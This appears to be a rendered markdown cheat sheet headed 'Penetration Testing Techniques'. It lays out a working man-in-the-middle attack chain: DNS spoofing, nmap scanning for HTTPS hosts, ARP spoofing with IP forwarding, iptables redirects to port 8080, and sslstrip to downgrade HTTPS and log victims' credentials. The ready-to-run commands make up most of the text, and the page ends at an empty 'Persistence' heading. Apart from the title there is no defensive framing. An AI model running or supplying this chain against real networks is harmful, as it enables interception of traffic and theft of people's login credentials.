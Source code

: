 # Penetration Testing Techniques

## External Reconnaissance

#### Identifying Hosts with HTTPS Services

SSLStrip works best when targeting users who are trying to access HTTPS websites. This means you need to identify potential targets that commonly access secure services.

1. **DNS Spoofing to Redirect HTTPS Requests**:  This redirects requests for specific domains (e.g., `www.example.com`) to the attacker's IP address for HTTPS downgrading via SSLStrip.
    ```bash
    dnsspoof -i <network_interface> -f hosts_file.txt
    ```
2. **Identifying Common HTTPS Sites**: Scans the network for open HTTPS services on port 443. Once you identify services, you can prepare to intercept traffic using SSLStrip.
    ```bash
    nmap -p 443 --open -sV <target_subnet>
    ```
3. **MITM Setup (ARP Spoofing)**:  Enables IP forwarding and sets up ARP spoofing to place your machine between the victim and the gateway. This is necessary for SSLStrip to work.
    ```bash
    echo 1 > /proc/sys/net/ipv4/ip_forward
    arpspoof -i <network_interface> -t <target_ip> <gateway_ip>
    ```

## Initial Access

#### Downgrading Secure Traffic to Capture Credentials

1. **Setup IPTables for Traffic Redirection**:  Redirects HTTP and HTTPS traffic to port 8080, where SSLStrip is running. This effectively downgrades the target’s HTTPS connections to HTTP.
    ```bash
    iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
    iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 8080
    ```
2. **Running SSLStrip to Capture Downgraded Traffic**:  Captures credentials and other sensitive information as users connect to previously secure services.
    ```bash
    sslstrip -l 8080 -w captured.log
    ```
3. **Combining SSLStrip with DNS Spoofing**: This method combines DNS spoofing with SSLStrip to ensure that all HTTPS traffic is downgraded and intercepted.
    ```bash
    dnsspoof -i <interface> -f hosts.txt &
    sslstrip -l 8080 -w dns_capture.log
    ```

## Persistence
